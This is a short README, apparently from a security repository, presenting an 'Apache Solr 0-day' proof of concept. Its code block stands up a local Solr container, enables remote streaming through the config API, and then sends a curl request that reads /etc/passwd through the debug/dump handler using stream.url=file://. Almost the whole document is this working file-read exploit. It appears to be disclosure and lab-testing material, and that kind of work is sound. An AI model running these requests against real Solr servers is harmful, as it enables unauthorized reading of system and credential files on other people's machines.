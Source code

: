 # Apache Solr 0-day

#### References: 

* https://solr.apache.org/guide/8_8/requestdispatcher-in-solrconfig.html
* https://mp.weixin.qq.com/s/3WuWUGO61gM0dBpwqTfenQ 

#### Greetz : 本文作者  Skay @ QAX CERT

```
# stand up test on docker
docker run --name solrbear -d -p 8983:8983 -t solr
docker start solrbear

# create core
docker exec -it --user solr solrbear bin/solr create_core -c gettingstarted

# reload (or use Web ui)
curl -X POST http://localhost:8983/solr/admin/cores?core=gettingstarted&action=RELOAD

# push some data maybe
curl -X POST -d '{"add":{ "doc":{"id":"delete.me","title":"change.me"}}}' -H "Content-Type: application/json" http://localhost:8983/solr/gettingstarted/update?commit=true

# Enable remote stream
curl -H 'Content-type:application/json' -d '{"set-property": {"requestDispatcher.requestParsers.enableRemoteStreaming": true}, "set-property":{"requestDispatcher.requestParsers.enableStreamBody": true}}' http://localhost:8983/api/cores/gettingstarted/config

# Exploit
curl "http://localhost:8983/solr/gettingstarted/debug/dump?param=ContentStreams" -F "stream.url=file:///etc/passwd"

```
